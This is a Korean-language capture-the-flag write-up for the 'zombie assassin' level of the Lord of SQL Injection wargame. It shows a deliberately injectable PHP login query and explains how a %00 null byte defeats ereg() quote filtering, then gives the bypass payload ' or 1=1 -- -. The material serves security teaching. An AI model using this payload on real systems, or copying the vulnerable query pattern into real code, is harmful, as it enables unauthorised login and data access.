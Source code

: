 # Lord of SQL Injection No.16 - zombie assassin
## 문제 출제 의도
1. ereg()함수의 취약점에 대해 알고 있는지 확인한다.
2. 아스키코드를 이해하고 있는지, query에 삽입할수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
zombie assassin의 소스 코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(@ereg("'",$_GET[id])) exit("HeHe"); 
    if(@ereg("'",$_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) solve("zombie_assassin"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - ereg()함수
        + ereg()함수는 다음과 같은 형식을 취한다.
        ~~~
        ereg("찾고자 하는 문자", "임의의 값")
        ~~~
        + ereg 함수는 대 소문자를 구분하며 eregi 함수는 대소문자를 구별하지 않는다.
        + ereg 함수는 취약점 때문에PHP 5.3+부터 사용되지 않고 6.0부터 삭제된다.
        + ereg 함수는 %00(NULL)문자를 만나면 탐색을 종료한다.

## 문제 해결
+ SQL injection
    - ereg 함수에서 가장 앞에 %00을 만나면 탐색을 종료하기 때문에 이를 이요하여 해결하면 문제가 해결된다.
    - 따라서 다음과 같은 추가 문자열을 URL 뒤에 추가하면 문제가 해결된다.
    ~~~
    ?id=%00 1' or 1=1 -- -
    ~~~
